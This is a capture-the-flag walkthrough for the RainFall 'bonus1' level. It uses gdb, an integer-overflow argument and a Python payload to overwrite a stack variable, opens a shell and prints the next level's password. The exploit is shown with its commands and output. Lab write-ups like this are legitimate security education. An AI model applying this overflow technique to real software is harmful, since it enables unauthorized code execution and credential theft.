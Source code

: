 ## BONUS 1

Ressources:
- [Disassembled code](disassembled_code.md)
- [Source code](srcs/bonus1.c)

To solve this level we will use a **Buffer Overflow** and a **Integer Overflow**

*I won't explain the details of the program, because the source is pretty easy to understand what it does.*

In this level we have to change a integer value on the stack `val`, firstly I gonna take a look on the position of this value in the memory.

```shell
bonus1@RainFall:~$ gdb -q bonus1
Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
(gdb) b *0x080484a3
Breakpoint 1 at 0x80484a3
(gdb) r 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /home/user/bonus1/bonus1 9 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x080484a3 in main ()
(gdb) x/32x $esp + 0x14
0xbffff674:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff684:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff694:	0x41414141	0x080484b9	0x00000009	0x080484b0
0xbffff6a4:	0x00000000	0x00000000	0xb7e454d3	0x00000003
0xbffff6b4:	0xbffff744	0xbffff754	0xb7fdc858	0x00000000
0xbffff6c4:	0xbffff71c	0xbffff754	0x00000000	0x0804821c
0xbffff6d4:	0xb7fd0ff4	0x00000000	0x00000000	0x00000000
0xbffff6e4:	0xb92fcf47	0x8e6b8b57	0x00000000	0x00000000
```

Perfect, as we can see the variable `val` is 44 bytes after the start of our buffer. So is we want to overwrite this value we have to copy 44 elements with `memcpy()`. Let's take a look on `memcpy()` call.

```c
memcpy(str, av[2], val * 4);
```

The program forbids to set an input higher than 9. But we can see that `memcpy()` multiply this value by 4. As we now is we multiply a very big number or a very small number, we can overflow this number. Multiply the number by 4 is the same as bitshifting it by 2. So I will use this site to see what happens with a very small number *(INT_MIN)*

```
-2147483648 << 2 = 0
<==>
-2147483637 << 2 = 44
```

Amazing, if we use this number we can copy 44 elements with `memcpy()` and overwrite `val` with our second string.
We need to do a last more thing to solve this level, we need to find with which value the program compare `val`.

```shell
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:	push   %ebp
   [...]
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
   0x08048480 <+92>:	jne    0x804849e <main+122>
   [...]
   0x080484a4 <+128>:	ret
End of assembler dump.
```

The program compare `val` with the value `0x574f4c46`.

---

### Payload

`python -c 'print ("\x42" * 40 + "\x46\x4c\x4f\x57")' > /tmp/payload`

Perfect, we just have to inject the payload into the program.

```shell
bonus1@RainFall:~$ ./bonus1 -2147483637 $(cat /tmp/payload)
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```